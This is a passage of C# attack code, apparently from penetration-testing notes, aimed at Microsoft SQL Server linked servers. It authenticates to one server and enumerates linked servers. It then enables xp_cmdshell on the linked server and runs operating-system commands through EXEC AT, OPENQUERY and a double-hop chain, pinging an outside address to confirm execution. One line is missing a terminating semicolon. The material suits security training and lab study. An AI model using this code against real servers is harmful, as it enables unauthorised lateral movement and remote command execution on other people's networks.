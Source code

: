 ```csharp
                result = result.Remove(result.Length - 1);
            }
            catch { }
            reader.Close();
            return result;
        }

        static void Main(string[] args)
        {
            // Authenticate
            string sqlServer = "SQLSRV01.corp1.com";
            string database = "master";
            string conString = $"Server = {sqlServer}; Database = {database}; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("[+] Auth success!");
            }
            catch
            {
                Console.WriteLine("[-] Auth failed");
                Environment.Exit(0);
            }

            // List linked servers
            string result = sqlQuery("EXEC sp_linkedservers;", con);
            Console.WriteLine($"[*] Linked SQL servers:\n{result}");

            // Enumerate current login on the linked server
            result = sqlQuery("select login from openquery(\"SQLSRV02\", 'select SYSTEM_USER as login');", con);
            Console.WriteLine($"[*] Executing as the login {result} at SQLSRV02");

            // Enable xp_cmdshell on the linked server
            sqlQuery("EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') at SQLSRV02;", con);

            // RCE via EXEC AT on the linked server
            result = sqlQuery("EXEC ('EXEC xp_cmdshell ''whoami'';') at SQLSRV02;", con);
            Console.WriteLine($"[*] xp_cmdshell at SQLSRV02 via EXEC AT: {result}");

            // RCE via OPENQUERY on the linked server
			sqlQuery("select 1 from openquery(\"SQLSRV02\", 'select 1; EXEC sp_configure ''show advanced options'',1; reconfigure; EXEC sp_configure ''xp_cmdshell'',1; reconfigure;');", con)
            sqlQuery("select 1 from openquery(\"SQLSRV02\", 'select 1; EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';');", con);

            // Double-hop RCE on the target server (SQLSRV01) from the linked server (SQLSRV02)
            sqlQuery("EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') at SQLSRV01;') at SQLSRV02;", con);
            sqlQuery("EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') at SQLSRV01;') at SQLSRV02;", con);

            con.Close();
        }
    }
}
```
{% endcode %}
